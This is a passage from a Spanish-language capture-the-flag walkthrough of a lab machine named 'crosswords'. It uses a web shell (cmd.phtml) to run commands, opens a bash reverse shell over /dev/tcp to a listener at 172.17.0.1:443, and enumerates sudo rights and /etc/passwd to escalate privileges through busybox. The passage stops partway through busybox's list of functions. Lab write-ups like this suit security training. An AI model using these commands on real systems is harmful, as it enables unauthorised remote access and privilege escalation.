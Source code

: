 Tenemos el archivo que nos permite ejecutar comandos:
```bash
http://crosswords.5eek3r.dl/cmd.phtml?cmd=whoami
```
### Intrusion
Ahora que podemos ejecutar comandos nos ponemos en escucha
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
http://crosswords.5eek3r.dl/cmd.phtml?cmd=bash%20-c%20%27exec%20bash%20-i%20%26%3E/dev/tcp/172.17.0.1/443%20%3C%261%27
```

---
## Escalada de Privilegios

###### Usuario `[ www-data ]`:
Lisando los permisos para este usuario tenemmos lo siguiente:
```bash
sudo -l

User www-data may run the following commands on dockerlabs:
    (astu : astu) NOPASSWD: /usr/bin/busybox # Binario potencial
```

Sabiendo que solo son dos usuarios del sistema,:
```bash
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
astu:x:1000:1000:astu,,,:/home/astu:/bin/bash
```

Si intentamos ejecutar el bianario tenemos lo siguiente:
```bash
sudo -u astu /usr/bin/busybox 
```

No retorna el modo de uso y los binarios que podemos ejecutar:
```bash
Usage: busybox [function [arguments]...]
   or: busybox --list[-full]
   or: busybox --show SCRIPT
   or: busybox --install [-s] [DIR]
   or: function [arguments]...

 BusyBox is a multi-call binary that combines many common Unix
 utilities into a single executable.  Most people will create a
 link to busybox for each function they wish to use and BusyBox
 will act like whatever it was invoked as.

Currently defined functions:
 [, [[, acpid, adjtimex, ar, arch, arp, arping, ascii, ash, awk, base64, basename, bc, blkdiscard, blkid, blockdev, brctl, bunzip2, bzcat, bzip2, cal, cat, chgrp, chmod, chown, chroot, chvt, clear, cmp, cp, cpio, crc32, cttyhack, cut, date, dc, dd, deallocvt,
 depmod, devmem, df, diff, dirname, dmesg, dnsdomainname, dos2unix, du, dumpkmap, dumpleases, echo, egrep, env, expand, expr, factor, fallocate, false, fatattr, fdisk, fgrep, find, findfs, fold, free, freeramdisk, fsfreeze, fstrim, ftpget, ftpput, getopt, getty,
 grep, groups, gunzip, gzip, halt, head, hexdump, hostid, hostname, httpd, hwclock, i2cdetect, i2cdump, i2cget, i2cset, i2ctransfer, id, ifconfig, ifdown, ifup, init, insmod, ionice, ip, ipcalc, ipneigh, kill, killall, klogd, last, less, link, linux32, linux64,
 linuxrc, ln, loadfont, loadkmap, logger, login, logname, logread, losetup, ls, lsmod, lsscsi, lzcat, lzma, lzop, md5sum, mdev, microcom, mim, mkdir, mkdosfs, mke2fs, mkfifo, mknod, mkpasswd, mkswap, mktemp, modinfo, modprobe, more, mount, mt, mv, nameif, nc,
```